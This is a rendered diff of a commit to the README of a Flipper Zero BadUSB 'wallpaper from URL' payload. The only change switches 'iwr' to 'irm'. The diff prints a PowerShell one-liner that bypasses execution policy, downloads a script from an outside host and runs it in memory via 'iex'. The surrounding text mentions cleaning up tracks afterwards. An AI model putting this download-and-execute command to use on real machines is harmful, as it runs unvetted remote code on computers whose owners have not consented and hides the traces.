

Before and after one commit to I-Am-Jakoby/Flipper-Zero-BadUSB, a Markdown page: Payloads/Flip-WallPaper-URL/ReadMe.md, the part around the change. Rendered like a GitHub page.

````diff
--- a/Payloads/Flip-WallPaper-URL/ReadMe.md
+++ b/Payloads/Flip-WallPaper-URL/ReadMe.md
@@ -38,7 +38,7 @@ Lastly, to clean up your tracks behind you, the tmp folder will be emptied and t
 * Invoke-WebRequest will be entered in the Run Box to download and execute the script from memory
 * Place your images URL in the $url variable
 ```
-powershell -noexit -NoP -NonI -Exec Bypass $url='URL-HERE';iwr jakoby.lol/pkw | iex
+powershell -noexit -NoP -NonI -Exec Bypass $url='URL-HERE';irm jakoby.lol/pkw | iex
 ```
 
 <p align="right">(<a href="#top">back to top</a>)</p>
````
